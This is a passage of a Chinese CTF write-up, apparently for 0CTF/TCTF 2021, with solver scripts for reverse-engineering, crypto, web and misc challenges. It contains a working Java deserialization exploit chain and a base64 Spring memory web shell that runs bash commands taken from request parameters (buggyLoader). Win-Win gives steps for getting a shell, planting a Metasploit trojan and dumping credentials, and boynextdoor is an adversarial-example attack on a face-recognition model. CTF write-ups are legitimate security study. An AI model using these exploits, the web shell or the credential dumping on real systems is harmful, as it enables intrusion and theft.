            if (a[14] != 155 || a[0] != 187||a[12] != 106||a[8] != 131||a[2] != 20||a[1] != 169||a[10] != 239||a[5] != 94||a[11] != 63||a[3] != 23||a[7] != 117||a[6] != 107||a[13] != 112||a[4] != 100||a[9] != 108) { 
                return false;
            } else {
                return true;
            }
        }
        return false;
        /* some code here */
    }
```


到这一步就比较简单了，直接逆推就好了。

```java
public class test {
    public static void main(String[] args) {
        int[] a = new int[20];
        a[14] = 155;
        a[0] = 187;
        a[12] = 106;
        a[8] = 131;
        a[2] = 20;
        a[1] = 169;
        a[10] = 239;
        a[5] = 94;
        a[11] = 63;
        a[3] = 23;
        a[7] = 117;
        a[6] = 107;
        a[13] = 112;
        a[4] = 100;
        a[9] = 108;

        for (int i = 0; i < 1234; ++i) {
            int id1872 = a[14];

            int id1918 = a[1] & a[0];
            int wtf20_temp = id1918 + a[3];
            int wtf20 = wtf20_temp - ((wtf20_temp + ((wtf20_temp >> 31) >>> 24)) & -256);
            int id1891 = (a[5] | a[7]) ^ wtf20;
            int id1888 = id1891 + a[10] + a[11];
            int id1883 = id1888 - ((((id1888 >> 31) >>> 24) + id1888) & -256);
            for (int j = 13; j >= 0; j--) {
                a[j + 1] = a[j];
            }
            a[0] = id1883 ^ id1872;
        }

        for (int i = 0; i < 15; ++i) {
            System.out.print((char)a[i]);
        }

    }
}
```

(BTW ((x >> 31) >>> 24) & -256 其实是 sign ，thanks to liangjs)

### halfhalf

逆向部分：

PoW部分验证输入的前四字节的的sha256的后3字节与输出的内容相同。

Magic Word部分将输入直接与常量比对，直接提取出来即可,为`🐶🍐🍳🏠🐣💀💺👈👉🏁🦅🔥🪓👃🎶📄`。

程序先初始化了质数p和q,和一个上限`1<<513-1`。在这个范围内随机生成了一个数v40。

菜单说明：
1. 输出p*q
2. 有一个随机数v40 若输入>=v40 `c=(rand()**2)*9*2` 否则`c= (rand()**2)*9`，然后输出`pow(c,65537,p*q)`
3. 输出旧的v40，然后重新随机生成一个v40
4. 若输入的是v40则输出flag 否则退出程序
5. 退出

crypto部分：

由于\*9和\*9\*2最大的区别是是否为平方数，那么在pow下，我们计算一个雅可比符号就可以判断他和v40的大小，从而二分法逼近

```python
import hashlib,itertools,string
from pwn import *
from sympy import *
import gmpy2
#context.log_level="debug"

#io=process("./debug")
io=remote("121.5.253.92",34567)

# pass pow
def pass_pow():

    io.recvuntil("<3\n")
    rr=str(io.readline().strip(),encoding = "utf8")
    print("fuck:",rr)
    for i in itertools.permutations(string.printable,4):
        #print(hashlib.sha256("".join(i).encode()).hexdigest()[-6:],rr)
        if hashlib.sha256("".join(i).encode()).hexdigest()[-6:] == rr:
            result="".join(i)
            print("pass_pow:"+result)
            io.writeline(result)
            break
    else:
        print('error')
pass_pow()

# magic word
io.recvuntil("Tell me the magic words: ")
io.writeline("🐶🍐🍳🏠🐣💀💺👈👉🏁🦅🔥🪓👃🎶📄")

# get n
def convert_emoji_to_number(emojistr):
    d="🍐🍳🎶🏁🏠🐣🐶👃👈👉💀💺📄🔥🦅🪓"
    result=0
    for i in emojistr:
        #print(i,d.index(i))
        result=(result<<4)+d.index(i)
    return result
io.recvuntil("> ")
io.writeline("1")
io.recvuntil("🔒:")
oo=str(io.readline().strip(),encoding="utf8")
n=convert_emoji_to_number(oo)

# get v40 and reset
io.recvuntil("> ")
io.writeline("3")
oo=str(io.readline().strip(),encoding="utf8")
v40=convert_emoji_to_number(oo)
print("v40:",v40)
print("##")

# io func
def convert_number_to_emoji(number):
    d="🍐🍳🎶🏁🏠🐣🐶👃👈👉💀💺📄🔥🦅🪓"
    result=""
    tmp=number
    while tmp!=0:
        result=d[tmp%16]+result
        tmp=(tmp>>4)
    return result

def put_up(v40):
    io.recvuntil("> ")
    io.writeline("2")
    io.recvuntil("❔:")
    io.writeline(convert_number_to_emoji(v40))
    checkstr=str(io.readline().strip(),encoding="utf8")
    check_c=convert_emoji_to_number(checkstr)
    #print(v40,convert_number_to_emoji(v40))
    #print(check_c)
    #print(gmpy2.jacobi(check_c,n))
    return gmpy2.jacobi(check_c,n)

up=13407807929942597099574024998205846127479365820592393377723561443721764030073546976801874298166903427690031858186486050853753882811946569946433649006084095
down=13

while up-down>1:
    newp=up-((up-down)//2)
    print(newp)
    if put_up(newp)==1:
        up=newp
    else:
        down=newp

print(up)
print(down)


# get v40 and reset
'''
io.recvuntil("> ")
io.writeline("3")
oo=str(io.readline().strip(),encoding="utf8")
v40=convert_emoji_to_number(oo)
print("v40:",v40)
print("##")'''

# get flag
io.recvuntil("> ")
io.writeline("4")
io.recvuntil("🔑: ")
io.writeline(convert_number_to_emoji(up))
io.interactive()
```


## WEB

### buggyLoader

题目需要结合二次反序列化get flag，同时序列化的数据需要满足`IndexController`类中的限制：
```javascript
String name = objectInputStream.readUTF();
int year = objectInputStream.readInt();
if (name.equals("0CTF/TCTF") && year == 2021) {
    objectInputStream.readObject();
}
```
这里通过`writeUTF`和`writeInt`先分别写入`0CTF/TCTF`和`2021`，然后再`writeObject`：
```javascript
ByteArrayOutputStream bos = new ByteArrayOutputStream();
ObjectOutputStream oss = null;
oss = new ObjectOutputStream(bos);
oss.writeUTF("0CTF/TCTF");
oss.writeInt(2021);
oss.writeObject(obj);
oss.flush();
byte[] bytes = bos.toByteArray();
bos.close();

String hex = Utils.bytesTohexString(bytes);
```
序列化数据的构造：首先是`MyObjectInputStream`中`resolveClass`影响了链子的构造，最后是`cc4`的链调到`RMIConnector`的`connect`触发二次反序列化。
生成序列化数据：
```javascript
package com.yxxx.buggyLoader;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import ysoserial.payloads.CommonsCollections4;
import ysoserial.payloads.util.Reflections;

import javax.management.remote.JMXServiceURL;
import javax.management.remote.rmi.RMIConnector;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class Exp {

    public static void main(String[] args) throws Exception {
        Object obj = getObject();
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oss = null;
        oss = new ObjectOutputStream(bos);
        oss.writeUTF("0CTF/TCTF");
        oss.writeInt(2021);
        oss.writeObject(obj);
        oss.flush();
        byte[] bytes = bos.toByteArray();
        bos.close();

        String hex = Utils.bytesTohexString(bytes);
        System.out.println(hex);

        byte[] b2 = Utils.hexStringToBytes(hex);
        InputStream inputStream1 = new ByteArrayInputStream(b2);
        ObjectInputStream objectInputStream1 = new MyObjectInputStream(inputStream1);
        Object obj2 = objectInputStream1.readObject();
    }

    public static Serializable getObject() throws Exception {
        Transformer transformer = InvokerTransformer.getInstance("connect");
        CommonsCollections4 commonsCollections3 = new CommonsCollections4();
        ByteArrayOutputStream outputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(outputStream);
        objectOutputStream.writeObject(commonsCollections3.getObject("touch /tmp/success"));
        String expbase64 = new String(Base64.getEncoder().encode(outputStream.toByteArray()));
        String finalExp = "service:jmx:rmi:///stub/" + expbase64;
        RMIConnector rmiConnector = new RMIConnector(new JMXServiceURL(finalExp), new HashMap<>());

        Map innerMap = new HashMap();
        Map lazyMap = LazyMap.decorate(innerMap, transformer);
        TiedMapEntry entry = new TiedMapEntry(lazyMap, rmiConnector);
        HashSet map = new HashSet(1);
        map.add("foo");
        Field f = null;

        try {
            f = HashSet.class.getDeclaredField("map");
        } catch (NoSuchFieldException var18) {
            f = HashSet.class.getDeclaredField("backingMap");
        }

        Reflections.setAccessible(f);
        HashMap innimpl = (HashMap) f.get(map);
        Field f2 = null;

        try {
            f2 = HashMap.class.getDeclaredField("table");
        } catch (NoSuchFieldException var17) {
            f2 = HashMap.class.getDeclaredField("elementData");
        }

        Reflections.setAccessible(f2);
        Object[] array = (Object[]) ((Object[]) f2.get(innimpl));
        Object node = array[0];
        if (node == null) {
            node = array[1];
        }

        Field keyField = null;

        try {
            keyField = node.getClass().getDeclaredField("key");
        } catch (Exception var16) {
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }

        Reflections.setAccessible(keyField);
        keyField.set(node, entry);
        return map;
    }

}
```
但是服务不出网，无法反弹shell，需要写入内存马，通过ScriptManager来注入内存马：
```javascript
org.springframework.web.context.request.ServletRequestAttributes servletRequestAttributes = (org.springframework.web.context.request.ServletRequestAttributes) org.springframework.web.context.request.RequestContextHolder.currentRequestAttributes();
        javax.servlet.http.HttpServletRequest req = ((org.springframework.web.context.request.ServletRequestAttributes) servletRequestAttributes).getRequest();
        org.springframework.web.context.WebApplicationContext context = org.springframework.web.context.support.WebApplicationContextUtils.getWebApplicationContext(req.getServletContext());
        org.springframework.web.servlet.handler.AbstractHandlerMapping abstractHandlerMapping = (org.springframework.web.servlet.handler.AbstractHandlerMapping)context.getBean("requestMappingHandlerMapping");
        java.lang.reflect.Field field = org.springframework.web.servlet.handler.AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
        field.setAccessible(true);
        java.util.ArrayList adaptedInterceptors = (java.util.ArrayList)field.get(abstractHandlerMapping);
        java.lang.String className = "com.example.memshell_spring_boot.evil.EvilInterceptor";
        java.lang.String b64 = "yv66vgAAADQAeQoAGgA8CAAyCwA9AD4IAD8KAEAAQQcAQggAQwgARAoAQABFCgBGAEcKAEYASAoARgBJBwBKCgANADwKAA0ASwgATAoADQBNCgBOAE8KAE4AUAoABgBRCgANAFIIAFMLAFQAVQoAVgBXBwBYBwBZAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBADdMY29tL2V4YW1wbGUvbWVtc2hlbGxfc3ByaW5nX2Jvb3QvZXZpbC9FdmlsSW50ZXJjZXB0b3I7AQAJcHJlSGFuZGxlAQBkKExqYXZheC9zZXJ2bGV0L2h0dHAvSHR0cFNlcnZsZXRSZXF1ZXN0O0xqYXZheC9zZXJ2bGV0L2h0dHAvSHR0cFNlcnZsZXRSZXNwb25zZTtMamF2YS9sYW5nL09iamVjdDspWgEAB3Byb2Nlc3MBABNMamF2YS9sYW5nL1Byb2Nlc3M7AQAGc3Rkb3V0AQAVTGphdmEvaW8vSW5wdXRTdHJlYW07AQAGc3RkZXJyAQAKc3Rkb3V0QnVmZgEAAltCAQAKc3RkZXJyQnVmZgEAB3JlcXVlc3QBACdMamF2YXgvc2VydmxldC9odHRwL0h0dHBTZXJ2bGV0UmVxdWVzdDsBAAhyZXNwb25zZQEAKExqYXZheC9zZXJ2bGV0L2h0dHAvSHR0cFNlcnZsZXRSZXNwb25zZTsBAAdoYW5kbGVyAQASTGphdmEvbGFuZy9PYmplY3Q7AQADY21kAQASTGphdmEvbGFuZy9TdHJpbmc7AQADcmVzAQANU3RhY2tNYXBUYWJsZQcAQgEACkV4Y2VwdGlvbnMHAFoBABBNZXRob2RQYXJhbWV0ZXJzAQAKU291cmNlRmlsZQEAFEV2aWxJbnRlcmNlcHRvci5qYXZhDAAbABwHAFsMAFwAXQEAAAcAXgwAXwBgAQAQamF2YS9sYW5nL1N0cmluZwEACS9iaW4vYmFzaAEAAi1jDABhAGIHAGMMAGQAZQwAZgBnDABoAGcBABdqYXZhL2xhbmcvU3RyaW5nQnVpbGRlcgwAaQBqAQAjLS0tLS0tLS0tLS0tLXN0ZG91dC0tLS0tLS0tLS0tLS0tLQoMAGsAbAcAbQwAbgBlDABvAHAMABsAcQwAaQByAQAjLS0tLS0tLS0tLS0tLXN0ZGVyci0tLS0tLS0tLS0tLS0tLQoHAHMMAHQAdQcAdgwAdwB4AQA1Y29tL2V4YW1wbGUvbWVtc2hlbGxfc3ByaW5nX2Jvb3QvZXZpbC9FdmlsSW50ZXJjZXB0b3IBAEFvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9zZXJ2bGV0L2hhbmRsZXIvSGFuZGxlckludGVyY2VwdG9yQWRhcHRlcgEAE2phdmEvbGFuZy9FeGNlcHRpb24BACVqYXZheC9zZXJ2bGV0L2h0dHAvSHR0cFNlcnZsZXRSZXF1ZXN0AQAMZ2V0UGFyYW1ldGVyAQAmKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1N0cmluZzsBABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAoKFtMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwEAEWphdmEvbGFuZy9Qcm9jZXNzAQAHd2FpdEZvcgEAAygpSQEADmdldElucHV0U3RyZWFtAQAXKClMamF2YS9pby9JbnB1dFN0cmVhbTsBAA5nZXRFcnJvclN0cmVhbQEABmFwcGVuZAEALShMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9TdHJpbmdCdWlsZGVyOwEACHRvU3RyaW5nAQAUKClMamF2YS9sYW5nL1N0cmluZzsBABNqYXZhL2lvL0lucHV0U3RyZWFtAQAJYXZhaWxhYmxlAQAEcmVhZAEABShbQilJAQAFKFtCKVYBABwoQylMamF2YS9sYW5nL1N0cmluZ0J1aWxkZXI7AQAmamF2YXgvc2VydmxldC9odHRwL0h0dHBTZXJ2bGV0UmVzcG9uc2UBAAlnZXRXcml0ZXIBABcoKUxqYXZhL2lvL1ByaW50V3JpdGVyOwEAE2phdmEvaW8vUHJpbnRXcml0ZXIBAAV3cml0ZQEAFShMamF2YS9sYW5nL1N0cmluZzspVgAhABkAGgAAAAAAAgABABsAHAABAB0AAAAvAAEAAQAAAAUqtwABsQAAAAIAHgAAAAYAAQAAAAkAHwAAAAwAAQAAAAUAIAAhAAAAAQAiACMAAwAdAAAB6gAFAAsAAAEDKxICuQADAgA6BBIEOgUZBMYA8bgABQa9AAZZAxIHU1kEEghTWQUZBFO2AAk6BhkGtgAKVxkGtgALOgcZBrYADDoIuwANWbcADhkFtgAPEhC2AA+2ABE6BRkHtgASvAg6CRkHGQm2ABNXuwANWbcADhkFtgAPuwAGWRkJtwAUtgAPtgAROgW7AA1ZtwAOGQW2AA8QCrYAFbYAEToFuwANWbcADhkFtgAPEha2AA+2ABE6BRkItgASvAg6ChkIGQq2ABNXuwANWbcADhkFtgAPuwAGWRkKtwAUtgAPtgAROgW7AA1ZtwAOGQW2AA8QCrYAFbYAEToFLLkAFwEAGQW2ABgErAAAAAMAHgAAAE4AEwAAAAsACgAMAA4ADQATAA4ALgAPADQAEAA7ABEAQgASAFgAEwBhABQAaQAVAIYAFgCcABcAsgAYALsAGQDDABoA4AAbAPYAHAEBAB4AHwAAAHAACwAuANMAJAAlAAYAOwDGACYAJwAHAEIAvwAoACcACABhAKAAKQAqAAkAuwBGACsAKgAKAAABAwAgACEAAAAAAQMALAAtAAEAAAEDAC4ALwACAAABAwAwADEAAwAKAPkAMgAzAAQADgD1ADQAMwAFADUAAAALAAH9AQEHADYHADYANwAAAAQAAQA4ADkAAAANAwAsAAAALgAAADAAAAABADoAAAACADs=";
        sun.misc.BASE64Decoder mydecoder = (sun.misc.BASE64Decoder)sun.misc.BASE64Decoder.class.newInstance();
        byte[] bytes = mydecoder.decodeBuffer(b64);
        java.lang.ClassLoader classLoader = java.lang.Thread.currentThread().getContextClassLoader();
        java.lang.System.out.println("flight");
        java.lang.System.out.println(classLoader);
        java.lang.System.out.println(className);
        java.lang.System.out.println(bytes);
        java.lang.System.out.println(bytes.length);
        java.lang.reflect.Field field = Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
        field.setAccessible(true);
        sun.misc.Unsafe unsafe = field.get(null);
        java.lang.Class cls = unsafe.defineClass("com.example.memshell_spring_boot.evil.EvilInterceptor", bytes, 0, bytes.length, classLoader, java.lang.System.class.getProtectionDomain());
        java.lang.System.out.println("flight2");
        java.lang.System.out.println(cls);
        adaptedInterceptors.add(cls.newInstance());
```

### Win-Win

```
xampp路径加一层随机字符串
C:/this_is_a_secret_path_107b1177348cc063a0713838282b1c27892d5fe2/php/tests/parseDir/phpinfo.php
用通配符<<+所有windows下默认apache目录进行爆破
readfile("C:/t<</php/tests/parseDir/phpinfo.php");
```

第二种办法

readfile \\.\C:直接下载C盘，然后拖到磁盘分析工具里面看目录，文件太大可以不下全部


然后session_upload包含或者包含tmp文件getshell

然后得到shell以后传msf木马
```
load kiwi


creds_all获取用户名密码
```
代理上去登录远程桌面获取flag


## Crypto
### babylogin

题目给了个client来连接服务器。
文件是pyinstaller打包的，python去调了libsmartcard.so的函数，用来加密和哈希。

baba的密码只有4位，hash已知，可以本地爆破。

root需要用token登录，baba修改root的密码后自行算出他的token，然后再token登。client的-k参数可以保持连接。

```
secure_decrypt(token) == secure_hash(passwordhash)
```

逆向libsmartcard.so得到secure_decrypt的逻辑

```python
import numpy as np
import data

out_tab = np.array(data.out_tab).reshape((16, 256))
table1 = np.array(data.table1).reshape((9, 4, 4, 256))
table2 = np.array(data.table2).reshape((9, 4, 4, 256))
swap_tab = np.array(data.swap_tab).reshape((9, 4, 4, 96, 16))


def arrange(data):
    #idx = [0, 5, 10, 15, 4, 9, 14, 3, 8, 13, 2, 7, 12, 1, 6, 11]
    #idx[i] == i * 5 % 16
    vals = [data[i * 5 % 16] for i in range(16)]
    return np.array(vals)


def split_byte(x):
    vals = [x >> (8*i) & 0xFF for i in range(4)]
    vals = vals[::-1]
    vals = [[x&0xF, x>>4] for x in vals]
    return vals


def sub_tab(tab, data):
    vals = [split_byte(tab[i,data[i]]) for i in range(4)]
    return np.array(vals)


def wtf(sw, low, high):
    x1 = sw[low[0]+32][low[1]] + 80
    y1 = sw[low[2]+48][low[3]]
    v1 = sw[x1][y1]
    x2 = sw[high[0]][high[1]] + 64
    y2 = sw[high[2]+16][high[3]]
    v2 = sw[x2][y2]
    return v1 | (v2 << 4)


def wtf2(sw, vals):
    ans = np.zeros(4, dtype=int)
    for i in range(4):
        low, high = vals[:,i,0], vals[:,i,1]
        ans[i] = wtf(sw[i], low, high)
    return ans


def myhash(data):

    for i in range(9):
        data = arrange(data)

        data = data.reshape((4, 4))
        for j in range(4):
            vals = sub_tab(table1[i,j], data[j])
            data[j] = wtf2(swap_tab[i,j], vals)
            vals = sub_tab(table2[i,j], data[j])
            data[j] = wtf2(swap_tab[i,j], vals)
        data = data.reshape((16,))

    data = arrange(data)
    data = [out_tab[i,data[i]] for i in range(16)]
    return data


def secure_decrypt(buf):
    for _ in range(1337):
        buf = myhash(buf)
    return buf
```

反推的主要难点在于 swap_tab。
swap_tab 的规律：如果把 swap_tab 看成 `int[n][16]` 的数组，那么 `swap_tab[a][b] = (a^b) % 16`
这样就可以消除所有swap_tab的查询。然后用 meet-in-the-middle 反推。

```cpp
#include "data.h"
#include <cstdio>
#include <unordered_map>
#include <algorithm>
using namespace std;

void print(uint8_t *buf)
{
    for (int i = 0; i < 16; ++i)
        printf("%02d ", buf[i]);
    putchar('\n');
}

void print(uint8_t buf[4][4])
{
    for (int i = 0; i < 4; ++i) {
        for (int j = 0; j < 4; ++j)
            printf("%02d ", buf[i][j]);
        putchar('\n');
    }
}

void arrange_inv(uint8_t *buf)
{
    uint8_t vals[16];
    for (int i = 0; i < 16; ++i)
        vals[i] = buf[i * 13 % 16];
    for (int i = 0; i < 16; ++i)
        buf[i] = vals[i];
}

void reshape(const uint8_t *buf, uint8_t buf2[4][4])
{
    for (int i = 0; i < 16; ++i) {
        int x = i / 4, y = i % 4;
        buf2[x][y] = buf[i];
    }
}

void reshape(const uint8_t buf[4][4], uint8_t *buf2)
{
    for (int i = 0; i < 16; ++i) {
        int x = i / 4, y = i % 4;
        buf2[i] = buf[x][y];
    }
}

void sub_tab_inv(const uint32_t table[4][256], uint8_t vals[4])
{
    unordered_map<uint32_t, pair<int, int>> s1, s2;
    for (int i = 0; i < 256; ++i)
        for (int j = 0; j < 256; ++j) {
            uint32_t v = table[0][i] ^ table[1][j];
            s1[v] = make_pair(i, j);
        }
    for (int i = 0; i < 256; ++i)
        for (int j = 0; j < 256; ++j) {
            uint32_t v = table[2][i] ^ table[3][j];
            s2[v] = make_pair(i, j);
        }
    uint32_t vdata = (vals[0] << 24) | (vals[1] << 16) | (vals[2] << 8) | vals[3];
    for (auto &x : s1) {
        uint32_t v1 = x.first;
        uint32_t v2 = v1 ^ vdata;
        auto y = s2.find(v2);
        if (y != s2.end()) {
            auto p1 = x.second;
            auto p2 = y->second;
            vals[0] = p1.first;
            vals[1] = p1.second;
            vals[2] = p2.first;
            vals[3] = p2.second;
            return;
        }
    }
    puts("bad");
}

void hash_inv(uint8_t *buf)
{
    for (int i = 0; i < 16; ++i) {
        auto list = out_tab[i];
        buf[i] = find(list, list + 256, buf[i]) - list;
    }
    arrange_inv(buf);

    uint8_t vals[4][4];
    for (int i = 8; i >= 0; --i) {
        reshape(buf, vals);
        for (int j = 3; j >= 0; --j) {
            sub_tab_inv(table2[i][j], vals[j]);
            sub_tab_inv(table1[i][j], vals[j]);
        }
        reshape(vals, buf);
        arrange_inv(buf);
    }
}

void secure_decrypt_inv(uint8_t *buf)
{
    for (int i = 0; i < 1337; ++i) {
        printf("round %d\n", i);
        hash_inv(buf);
        print(buf);
    }
}

int main()
{
    uint8_t buf[16] = {};
    secure_decrypt_inv(buf);
    return 0;
}
```


### ezMat

整理一下大致如下：
E = U*(A+R)
- E是最后结果，已知
- U是上三角矩阵
- A是flag矩阵，分布有规律，其余都是0
- R是pk公钥，已知

U是上三角矩阵，A的分布我们知道，并且A特别稀疏，所以E中很多位置的值就相当于U\*R得到的结果，根据这点可以慢慢恢复出U的每一行，进而通过U每一行的值恢复出对应行的A的值
从下到上每次能依次求出U的其中一行，然后根据U的值，反推出A的对应行
```
p = 71

E = [
[31,45,41,12,36,43,45,51,25,2,64],
[68,24,32,35,52,13,64,10,14,2,40],
[34,34,64,32,67,25,21,57,31,6,56],
[7,17,12,33,54,66,28,25,40,23,26],
[14,65,70,35,67,55,47,36,36,42,57],
[68,28,33,0,45,52,59,29,52,41,46],
[60,35,0,21,24,44,49,51,1,6,35],
[20,21,44,57,23,35,30,28,16,23,0],
[24,64,54,53,35,42,40,17,3,0,36],
[32,53,39,47,39,56,52,15,39,8,9],
[7,57,43,5,38,59,2,25,2,67,12],
]

R = [
[53,28,20,41,32,17,13,46,34,37,24],
[0,9,54,25,36,1,21,24,56,51,24],
[61,41,10,56,57,28,49,4,44,70,34],
[47,58,36,53,68,66,34,69,22,25,39],
[4,70,21,36,53,26,59,51,3,44,28],
[41,23,39,37,1,28,63,64,37,35,51],
[43,31,16,36,45,5,35,52,7,45,41],
[26,3,54,58,50,37,27,49,3,46,11],
[14,48,18,46,59,64,62,31,42,41,65],
[17,50,68,10,24,40,58,46,48,14,58],
[46,24,48,32,16,1,27,18,27,17,20],
]

A = [
[0,0,0,0,0,0,0,0,0,0,0],
[0,0,0,0,0,0,0,0,0,0,0],
[0,0,0,0,0,0,0,0,12,0,0],
[0,0,55,0,0,0,0,3,0,0,0],
[0,14,0,0,0,0,37,0,0,0,0],
[16,0,0,0,0,4,0,0,0,0,12],
[0,0,0,0,25,0,0,0,0,18,0],
[0,0,0,48,0,0,0,0,17,0,0],
[0,0,61,0,0,0,0,25,0,0,0],
[0,64,0,0,0,0,38,0,0,0,0],
[13,0,0,0,0,50,0,0,0,0,0],
]

U = zero_matrix(GF(p), 11, 11)
A = Matrix(GF(p), A)
E = Matrix(GF(p), E)
R = Matrix(GF(p), R)

aa = [
[-1,0,0,0,0,-1,0,0,0,0,-1],
[0,0,0,0,-1,0,0,0,0,-1,0],
[0,0,0,0,0,0,0,0,0,0,0],
[0,0,0,0,0,0,0,0,0,0,0],
[0,0,0,0,0,0,0,0,0,0,0],
[0,0,0,0,0,0,0,0,0,0,0],
[0,0,0,0,0,0,0,0,0,0,0],
[0,0,0,0,0,0,0,0,0,0,0],
[0,0,0,0,0,0,0,0,0,0,0],
[0,0,0,0,0,0,0,0,0,0,0],
[0,0,0,0,0,0,0,0,0,0,0],
]

# aa不是-1，说明该位置的值已经求出来了
aa = Matrix(aa)

row = 1 
cnt = 0
X = Matrix(Zmod(p), 11-row, 11-row)
Y = Matrix(Zmod(p), 11-row, 1)
for col in range(11):
    if -1 not in aa.column(col)[row:]: #选择已经求出A的列
        print(col)  #每一行赋值，用来构成解方程的矩阵
        X[cnt] = (A+R).column(col)[row:]
        Y[cnt] = E[row][col]
        cnt += 1
        if cnt==11-row:
            #print(X)
            #print(Y)
            r = X.solve_right(Y) # 求出U对应位置的值
            print(r)
            # 将结果写入到U中
            for tmp_idx in range(cnt):
                U[row, row+tmp_idx] = r[tmp_idx, 0]
            print(U)
            break
```
最后能恢复成这个程度，最上面两行无法恢复存在多解


可以根据多解缩小范围，但是懒得优化了直接爆破hash：
```
from hashlib import sha256
alphabet = '=0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ$!?_{}<>'

for i1 in alphabet:
    for i2 in alphabet:
        for i3 in alphabet:
            for i4 in alphabet:
                for i5 in alphabet:
                    flag = i1+i2+i3+i4+i5+"=bS2dAf3bohLgYo!BcN"
                    #print(len(flag))
                    if sha256(flag.encode()).hexdigest() == "95cb911a467482cc0f879861532e9ec7680b0846b48a9de25fb13b01c583d9f8":
                        print(i1+i2+i3+i4+i5)
                        exit(0)
```
最后得到：
```
flag{6yY4L=bS2dAf3bohLgYo!BcN}
```

### ezRSA
主要是通过magic来解出k和l，主要思路通过开方来得到一个大致的值，这个值就在正确值的附近，然后再遍历一下得到正确的值。
其次，不难发现e的值生成得很特殊，我们通过模k或者l，就能拿到inverse(d_p, k)，inverse(d_q, l)这两个值，再通过求逆得到d_p'，d_q'。
再通过d_p'，d_q'生成p，q。通过d_p & mask, d_q & mask来检查哪一个正确，再通过正确值得到真正的p，q
```
magic = 154118536863381755324327990994045278493514334577571515646858907141541837890


def check(k, l, magic):
    res = 1337 * k ** 4 + 7331 * l ** 3 + 73331 * k ** 2 + 13337 * l ** 2 + 7 * k * l + 2 * k + l
    if res == magic:
        return True


k1 = iroot(magic // 1337, 4)[0]
for i in range(50):
    t = 1337 * (k1 - i) ** 4
    l1 = iroot((magic - t) // 7331, 3)[0]
    for j in range(20):
        if check(k1 - i, l1 - j, magic):
            if GCD(k1 - i, l1 - j) == 1:
                k = k1 - i
                l = l1 - j
                break

print(k, l)


pk = (13144833961692953638155744717380612667335058302310815242506755676885208234342620331186804951145894484501542968789132832800279633590988848298405521677820600481054741175400784558190943019903268095468121342412114428860754522164657102624139527993254089574309927288457799155130004731846999722554981630609692264462023821778810225493633789543259034893395115658330417361250466876018981150507377427664192443342394808337473089411393262018525828475108149889915075872592673448211565529063972264324533136645650169687118301014325354524932405270872098633633071371124551496573869700120350489760340226474892703585296623, 4976865541630914024304930292600669330017247151290783019063407119314069119952298933566289617702551408322779629557316539138884407655160925920670189379289389411163083468782698396121446186733546486790309424372952321446384824084362527492399667929050403530173432700957192011119967010196844119305465574740437)
e = pk[1]
d_q = inverse((e % l), l)
q = (e * d_q - 1) // l + 1
n = pk[0]
p = n // q
enc = 12075538182684677737023332074837542797880423774993595442794806087281173669267997104408555839686283996516133283992342507757326913240132429242004071236464149863112788729225204797295863969020348408992315952963166814392745345811848977394200562308125908479180595553832800151118160338048296786712765863667672764499042391263351628529676289293121487926074423104988380291130127694041802572569416584214743544288441507782008422389394379332477148914009173609753877263990429988651290402630935296993764147874437465394433756515223371180032964253037946818633821940103044535390973722964105390263537722948112571112911062
d = inverse(e, (p - 1) * (q - 1))
print(long_to_bytes(pow(enc, d, pk[0])))
```


## Misc
### eeenginx
首先使用路径/proc/self/exe得到当前nginx的二進制可执行文件，导入IDA发现exec_shell函数，里面存在执行/readflag的代码

交叉引用查找到ngx_http_eenginx_filter函数，得到执行条件

将cookies的session字段设置为图中即可


### boynextdoor

AI人脸识别，构造对抗样本。
构造一个图片让 embedding 尽量接近题目给的数值。

程序用的现成的库 [face_recognition](https://github.com/ageitgey/face_recognition), [dlib](http://dlib.net/python/index.html)
模型是 dlib_face_recognition_resnet_model_v1.dat
这个工具可以把模型转成tensorflow接受的格式 https://github.com/ksachdeva/dlib-to-tf-keras-converter

攻击方法就是每次对图像求梯度，用梯度下降来逼近给定的embedding。
这题比较tricky的地方是，在传给神经网络前，dlib会先对图像做裁剪、放缩、随机抖动。
这些变换可以用 Expectation over Transformation (EOT) 方法绕过，就是我们每步算梯度时，随机多次采样取平均梯度，这些变换的效果就会被中和掉。

```python
import dlib
import face_recognition
from PIL import Image
import random
import numpy as np
from numpy.linalg import norm
import tensorflow as tf
from converter.model import ScaleLayer, ReshapeLayer


keyface_encoding = [
    -8.69139656e-02,  8.30148682e-02, 1.45035293e-02, -1.27609253e-01,
    -1.42700657e-01, -1.58593412e-02, -9.87722948e-02, -1.23219922e-01,
    1.22708268e-01, -1.35270610e-01, 2.30035380e-01, -1.23880222e-01,
    -1.93354771e-01, -8.94580930e-02, -7.93846995e-02,  2.35654935e-01,
    -1.81906566e-01, -1.34962142e-01, -1.31788421e-02, -1.04968855e-02,
    4.10739481e-02,  2.44885264e-03, 8.52121785e-03,  5.79290688e-02,
    -1.15343466e-01, -3.23355764e-01, -8.69766697e-02, -2.12586801e-02,
    -9.11531225e-02, -3.72300223e-02, -2.80866250e-02,  1.02462806e-01,
    -1.71462923e-01, -2.73887850e-02, 4.65847105e-02,  6.94189966e-02,
    2.20984984e-02, -8.01130161e-02, 1.72256276e-01,  1.52742490e-04,
    -2.54432797e-01,  5.17657027e-02, 1.13474540e-01,  2.19928578e-01,
    1.68304369e-01,  1.28403883e-02, -1.04458071e-02, -1.59635231e-01,
